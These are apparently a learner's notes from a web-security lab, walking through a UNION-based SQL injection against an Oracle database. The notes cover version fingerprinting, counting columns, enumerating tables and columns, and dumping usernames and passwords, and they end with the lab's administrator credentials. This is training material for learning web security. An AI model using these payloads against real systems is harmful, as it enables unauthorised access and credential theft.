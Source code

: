 # Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version
        - Unsuccessful
    - ' UNION SELECT version()--
        - Unsuccessful
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
        - SUCCESS
        - ![Oracle Version](./pics/130057.png)  
    - Determine number of columns needed for UNION
        - ' ORDER BY (number)--
            - stop when you get an error
        - ' ORDER BY 3-- yielded error so we know there are 2 columns
            - ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        - ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            - Oracle requires selection from a table
            - dual is a dummy table that anyone can access :)
        - ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            - both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
- Get list of table names
    - ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
    - ![](./pics/141930.png)
- CRTL-F 'user' to find potential tables
    - USERS_ELWKUV (worked!)
    - USER$
- Get columns for the tables ()
    - PASSWORD_UOJZWJ | USERNAME_WRUUZC
    - ![](./pics/141953.png)
- Get the column data
    - ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
    - ![](./pics/142008.png)
- Admin Info
    - uname: administrator
    - pword: b4if4ckvox1tsk8wlgjx



